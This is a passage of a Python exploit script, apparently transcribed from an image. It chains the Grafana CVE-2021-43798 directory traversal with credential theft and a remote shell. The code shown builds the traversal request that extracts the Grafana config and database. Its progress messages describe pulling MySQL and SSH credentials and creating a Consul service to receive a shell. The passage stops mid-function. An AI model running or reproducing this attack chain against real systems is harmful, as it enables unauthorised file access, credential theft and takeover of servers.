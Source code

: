 ```python
		with log.progress('Starting Attack') as progress:

			progress.status('Grafana plugin url [CVE-2021-43798] (Directory Path Traversal)'); time.sleep(3)
			self.extract_file(file=self.target_files['grafana_conf'])

			progress.status('Searching grafana.db path in config file'); time.sleep(3)
			self.get_database_path()
			self.extract_file(file=self.target_files['grafana_db'])
			
			progress.status('SQLite enumeration in Grafana database file'); time.sleep(3)
			self.get_mysql_cred()
			
			progress.status('Login to Mysql with credentials'); time.sleep(2)
			self.extract_ssh_cred()

			progress.status('Prepare .json and .sh file'); time.sleep(3)
			self.prepare_files()

			progress.status('Creating Consul service to receive the shell'); time.sleep(3)
			self.get_shell()

	def extract_file(self, file):
		try:
			with Session() as session:
				vulnerable_path = self.target_host['grafana_service'] \
					+ '/public/plugins/' \
					+ choice(plugins) \
					+ '/..'*8 \
					+ file

				request = Request(method='GET', url=vulnerable_path)

				prepare_request = session.prepare_request(request)
				prepare_request.url = vulnerable_path

				response = session.send(prepare_request)

				if 'Plugin not found' in response.text:
					exit('\n[!] File not found.')
				else:
					if response.status_code == 200:
						file_name = file.split('/')[-1] # extract only file name

						with open(file_name, 'wb') as file:
							file.write(response.content)

						log.info(f'(CVE-2021-43798) Extracted file -> {file_name}'); time.sleep(1)
		
		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_database_path(self):
		try:
			file_name = self.target_files['grafana_conf'].split('/')[-1] # extract only file name

			with open(file_name, 'rb') as file:
				content = file.read()

				filter_data = findall(r';data = (.+)|;path = (.+)', content.decode('utf-8'))

				database_path = filter_data[0][0] + '/' + filter_data[1][1]

```